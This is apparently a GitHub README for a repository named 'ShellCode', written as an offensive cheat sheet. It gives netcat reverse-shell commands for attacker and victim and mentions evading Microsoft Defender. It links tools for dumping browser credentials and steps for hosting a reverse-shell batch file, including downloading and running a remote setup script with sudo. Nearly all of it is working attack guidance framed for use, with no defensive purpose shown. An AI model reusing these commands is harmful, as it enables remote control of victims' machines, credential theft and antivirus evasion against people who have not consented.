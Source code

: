 # ShellCode

### Shell Generator Resource(Reverse, Bind, HoaxShell, MSFVenom)
[Shell Generator](https://www.revshells.com) 


**MAC OS Reverse Shell Example:** (Last tested 11/24)

- Attacker: nc -lvnp &lt;Port&gt;

- Victim: nc &lt;IP&gt; &lt;Port&gt; -e /bin/bash

**Windwos 11 Reverse Shell Example:**

- cat & mouse game to bypass Microsoft Defender
- Useful resource: [Youtube](https://www.youtube.com/watch?v=SYM4i474JqM)


---
### Browser Extensions
[Hack-Tools Chrome Extension](https://chromewebstore.google.com/detail/hack-tools/cmbndhnoonmghfofefkcccljbkdpamhi)

---
### Dump Web-Browser Creds
[git](https://github.com/moonD4rk/HackBrowserData.git) (Last tested 11/24)

---
### Spin up a local Web Server to distribute the shellcode(Last tested 11/24)
To set up a web server and host your script, follow these steps:

   ```bash
   touch powershellreverse.bat
   echo "<ShellCode here>" > powershellreverse.bat
   wget https://github.com/NickolayMOmelchenko/ShellCode/raw/refs/heads/main/setup_windows_website.sh
   chmod +x setup_windows_website.sh
   sudo ./setup_windows_website.sh

